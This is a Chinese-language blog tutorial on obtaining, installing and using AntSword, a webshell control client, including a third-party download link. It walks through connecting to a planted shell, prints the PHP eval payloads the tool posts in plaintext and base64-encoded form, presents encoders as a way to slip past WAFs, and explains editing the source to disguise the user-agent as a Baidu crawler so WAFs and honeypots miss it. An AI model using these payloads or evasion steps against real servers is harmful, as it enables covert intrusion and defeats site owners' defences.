

# [中国蚁剑下载、安装、使用教程](https://www.fujieace.com/hacker/tools/antsword.html)

中国蚁剑是一款开源的跨平台网站管理工具，它主要面向于合法授权的渗透测试安全人员以及进行常规操作的网站管理员。


通俗的讲：中国蚁剑是 一 款比菜刀还牛的shell控制端软件。


中国蚁剑推崇模块化的开发思想，遵循开源，就要开得漂亮的原则，致力于为不同层次的人群提供最简单易懂、方便直接的代码展示及其修改说明，努力让大家可以一起为这个项目贡献出力所能及的点点滴滴，让这款工具真正能让大家用得顺心、舒适，让它能为大家施展出最人性化最适合你的能力！


## 一、中国蚁剑下载

唯一官方github下载地址：https://github.com/AntSwordProject/

注意：

我们下载的时候需要下载两个部分，一个是项目核心源码”antSword“，另一个是加载器；加载器则分为三个版本：Mac、Windows、Linux。


由于最近有网友反映，中国蚁剑项目核心源码”antSword“下载地址出现了404，我就把我以前下载的给大家分享出来一下吧！

百度网盘链接：https://pan.baidu.com/s/1Fl0_hFtCtfUgcNIOwKeGEA 提取码：nvjc

> 如网盘链接有失效，请评论留言或Q上联系我！
>
> 
>
> 共包含2个文件：
>
> antSword.zip
>
> AntSword-Loader-v4.0.3-win32-x64.zip


## 二、中国蚁剑安装

由于我下载的是“AntSword-Loader-v4.0.3-win32-x64.zip”，我就以Windows版本64位来示例了。


1、我们解压“AntSword-Loader-v4.0.3-win32-x64.zip”后，双击“AntSword.exe”；

第一次安装项目需要先初始化，如果你已经下载了核心源码，就选择项目源码的文件夹。（如果只下载了加载器，选择一个空文件夹，加载器会自动帮你下载核心项目源码）。

> 注意：这个项目文件夹就是你以后需要备份的，存储着你的shell和shell内的资料。


2、等初始化完成后，再双击“AntSword.exe”即可正常启动！


## 三、中国蚁剑使用

使用其实跟菜刀几乎差不多，只是蚁剑功能更强大一些，下面就简单给大家说说：


**1、添加一个shell**

首先：右键单击 - 添加数据；


其次：输入URL地址，连接密码以及编码设置。PHP语言推荐编辑器使用chr加密；

[](https://www.fujieace.com/wp-content/uploads/2019/07/9.png?x88036)


再次：如果需要自己写编码器的加密类型，可以按下图来操作：

[](https://www.fujieace.com/wp-content/uploads/2019/07/10.png?x88036)


从次：还可以配置shell的请求信息和post内容；

[](https://www.fujieace.com/wp-content/uploads/2019/07/3-4.png?x88036)


最后：还可以配置全局代理；


**2、插件**

中国蚁剑有一个插件市场，可以安装一些插件，插件有很多。以下是部份插件截图：


**3、关于编码器**

编码器是这个程序的过人之处，用编码器加密可以轻松绕过WAF。


不妨，我们来对比一下默认不使用编码传输和base64编码传输的区别：


明文传输，post内容为：

```perl
ant=@ini_set("display_errors", "0");@set_time_limit(0);echo "3e231";$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}    ";if(substr($D,0,1)!="/"){foreach(range("C","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.="    ";$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();$R.=php_uname();$R.="    {$s}";echo $R;;echo "8e51f";die();
```


base64加密传输，post内容为：

```ini
_0x4ee8506e59871=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7ZWNobyAiNzk1ODAiOyREPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTtpZigkRD09IiIpJEQ9ZGlybmFtZSgkX1NFUlZFUlsiUEFUSF9UUkFOU0xBVEVEIl0pOyRSPSJ7JER9CSI7aWYoc3Vic3RyKCRELDAsMSkhPSIvIil7Zm9yZWFjaChyYW5nZSgiQyIsIloiKWFzICRMKWlmKGlzX2RpcigieyRMfToiKSkkUi49InskTH06Ijt9ZWxzZXskUi49Ii8iO30kUi49IgkiOyR1PShmdW5jdGlvbl9leGlzdHMoInBvc2l4X2dldGVnaWQiKSk/QHBvc2l4X2dldHB3dWlkKEBwb3NpeF9nZXRldWlkKCkpOiIiOyRzPSgkdSk/JHVbIm5hbWUiXTpAZ2V0X2N1cnJlbnRfdXNlcigpOyRSLj1waHBfdW5hbWUoKTskUi49Igl7JHN9IjtlY2hvICRSOztlY2hvICIwOWE3ZSI7ZGllKCk7&ant=@eval(@base64_decode($_POST[_0x4ee8506e59871]));
```


注意：其中，ant参数名称是shell密码。


再来看看chr编码传输，完全就全部编码了。


**4、user-agent修改**

要注意的是，软件默认的user-agent是：User-Agent: antSword/v2.0；而且大部分人都不会去自定义useragent，这就给waf和蜜罐白白送了一个特征，所以我们要修改一下源代码：


修改项目路径：

antSword\modules\request.js （修改const USER_AGENT = 'antSword/v2.1'; 这一行代码！）

antSword\modules\update.js （有两处要修改；可搜索“antSword/v2.0”来找到这两行代码！）


我这里是把**antSword/v2.0**或**antSword/v2.1**修改为了**Baiduspider-image**，我改成了百度图片蜘蛛；


如果大家还有什么不懂的，请查看中文说明书：https://doc.u0u.us/zh-hans/


参考：

https://www.fujieace.com/hacker/tools/antsword.html